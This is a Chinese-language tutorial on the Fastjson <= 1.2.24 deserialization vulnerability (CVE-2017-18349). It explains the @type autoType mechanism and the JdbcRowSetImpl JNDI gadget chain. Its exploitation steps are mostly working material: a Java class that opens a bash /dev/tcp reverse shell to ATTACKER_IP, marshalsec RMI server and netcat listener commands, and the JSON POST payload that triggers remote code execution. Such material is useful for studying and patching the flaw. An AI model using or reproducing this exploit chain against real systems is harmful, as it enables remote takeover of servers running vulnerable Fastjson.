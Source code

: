 # Fastjson <= 1.2.24 反序列化漏洞 (CVE-2017-18349)

## 概述 (Overview)

Fastjson 是阿里巴巴开发的一款高性能 Java JSON 解析库。在 1.2.24 及之前版本中，存在一个严重的反序列化漏洞。Fastjson 提供的 `autoType` 功能（通过 `@type` 字段指定反序列化类）在默认配置下并未有效限制可实例化的类，攻击者可以利用此特性，结合服务器 Classpath 中存在的 "gadget chain"（利用链），实现远程代码执行 (RCE)。 (通常使用 `vulhub` 等靶场环境进行复现)。

## 漏洞原理 (Vulnerability Principle)

1.  **`@type` 自动类型**: Fastjson 允许在 JSON 数据中通过 `@type` 字段显式指定要实例化的 Java 类名。
2.  **Gadget Chain**: 攻击者寻找目标服务器 Classpath 中存在的特定类（Gadget）。这些类在其实例化或其 setter/getter 方法被调用（Fastjson 反序列化时会自动调用）的过程中，会执行某些危险操作，例如 JNDI (Java Naming and Directory Interface) 查询。
3.  **JNDI 注入**: 常用的利用链之一是 `com.sun.rowset.JdbcRowSetImpl`。该类的 `dataSourceName` 属性接收一个 JNDI URL。当 Fastjson 调用其 `setDataSourceName` 方法，或者后续代码触发 JNDI 查询时，会连接到攻击者指定的 JNDI 服务（如 RMI 或 LDAP）。
4.  **恶意类加载**: 攻击者可以搭建恶意的 RMI 或 LDAP 服务器。当受害者服务器连接到该 JNDI 服务时，攻击者的服务器可以返回一个引用，指向一个包含恶意代码的远程 Class 文件（通常托管在 HTTP 服务器上）。受害者服务器会下载并加载这个远程 Class 文件，执行其中的代码，从而实现 RCE。

## 利用步骤 (Exploitation Steps - RMI/JNDI Example)

1.  **编写并编译恶意类**:
    *   创建一个 Java 文件 (e.g., `Exploit.java`)，包含要执行的恶意代码（例如反弹 shell）。
    ```java
    import java.lang.Runtime;
    import java.lang.Process;

    public class Exploit {
        static {
            try {
                // Example: Create a file on the target
                // Runtime.getRuntime().exec("touch /tmp/pwned");

                // Example: Reverse Shell (requires target system with bash/netcat)
                String ip = "ATTACKER_IP"; // Replace with attacker's IP
                String port = "ATTACKER_PORT"; // Replace with attacker's listening port
                String cmd = "/bin/bash -c \"bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1\"";
                Runtime.getRuntime().exec(cmd);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
    *   编译它：`javac Exploit.java`

2.  **启动 HTTP 服务器**:
    *   在包含 `Exploit.class` 文件的目录下启动一个简单的 HTTP 服务器，以便目标服务器可以下载它。
    *   `python3 -m http.server 8000` (或其他端口)

3.  **启动恶意 JNDI (RMI) 服务器**:
    *   使用 `marshalsec` 或类似的工具启动一个 RMI 服务器，该服务器会将 JNDI 查询重定向到步骤 2 中的 HTTP 服务器上的恶意类。
    *   `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://ATTACKER_IP:8000/#Exploit" 9999`
        *   `ATTACKER_IP:8000` 是步骤 2 中 HTTP 服务器的地址和端口。
        *   `#Exploit` 是要加载的类名。
        *   `9999` 是 RMI 服务器监听的端口。

4.  **设置监听器**:
    *   如果恶意代码是反弹 shell，在攻击者机器上启动监听器。
    *   `nc -lvp ATTACKER_PORT`

5.  **发送恶意 JSON Payload**:
    *   使用 `curl` 或 Burp Suite 向目标应用的 Fastjson 解析接口发送包含恶意 JNDI URL 的 JSON payload。
    ```http
    POST /vulnerable-endpoint HTTP/1.1
    Host: TARGET_IP:TARGET_PORT
    Content-Type: application/json
    Content-Length: <calculated_length>

    {
        "a": {
            "@type": "com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName": "rmi://ATTACKER_IP:9999/Exploit",
            "autoCommit": true
        }
    }
    ```
    *   `ATTACKER_IP:9999` 是步骤 3 中 RMI 服务器的地址和端口。

6.  **触发执行**:
    *   当目标服务器上的 Fastjson 解析此 JSON 时，会实例化 `JdbcRowSetImpl`，设置 `dataSourceName`，并可能在后续操作中触发 JNDI 查询。
    *   服务器连接到攻击者的 RMI 服务器，被重定向到 HTTP 服务器下载 `Exploit.class`，加载并执行其静态代码块中的恶意代码（反弹 shell 或其他命令）。攻击者的监听器收到连接。